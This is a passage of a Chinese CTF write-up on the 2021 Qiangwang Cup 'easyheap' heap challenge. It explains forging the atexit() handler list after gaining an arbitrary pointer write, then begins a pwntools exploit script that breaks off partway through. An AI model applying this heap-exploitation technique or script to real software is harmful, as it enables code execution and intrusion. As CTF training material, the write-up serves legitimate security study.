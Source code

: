 ![36052129.png](2021强网杯easyheap_files/36052129.png)

### 伪造atexit()
- 有了指针任意写之后, 我选择的是打atexit链表

![36508938.png](2021强网杯easyheap_files/36508938.png)
- 申请那么多是因为f[31]与a[31]中间差了0x100, 所以要多申请一些, 保证可以控制参数
- 还需要注意的是head实际是从head->next开始遍历f[]的, 因此还需要伪造一个next指针

![36558316.png](2021强网杯easyheap_files/36558316.png)



## EXP
```Python
#! /usr/bin/python
# coding=utf-8
import sys
from pwn import *

context.log_level = 'debug'
context(arch='amd64', os='linux')

def Log(name):	
	log.success(name+' = '+hex(eval(name)))

elf = ELF("./pwn")
libc = ELF('libc.so')

if(len(sys.argv)==1):			#local
	cmd = ["./pwn"]
	sh = process(cmd)
else:						#remtoe
	sh = remote(host, port)

Arr = [
		[81, 87, 66, 95, 67, 114, 51, 52, 116, 51, 0, 0, 0, 0, 0, 0],
		[81, 87, 66, 95, 68, 51, 108, 51, 84, 101, 0, 0, 0, 0, 0, 0],
		[81, 87, 66, 95, 67, 104, 51, 67, 107, 0, 0, 0, 0, 0, 0, 0],
		[81, 87, 66, 95, 77, 48, 100, 49, 70, 121, 0, 0, 0, 0, 0, 0],
		[81, 87, 66, 95, 71, 48, 48, 100, 66, 121, 101, 0, 0, 0, 0, 0]
	]

def Str(Arr):
    res = ''
    for c in Arr:
        res+=chr(c)
    return res

def Num(n):
	sh.sendline(str(n))

def Cmd(c):
	sh.recvuntil('>> ')
	Num(c)

def Prepare():
	Cmd(1)
	sh.recvuntil('Code: ')
	sh.sendline("W31C0M3_to_QWB21")

def Create(arr):
	sh.recvuntil('$ ')
```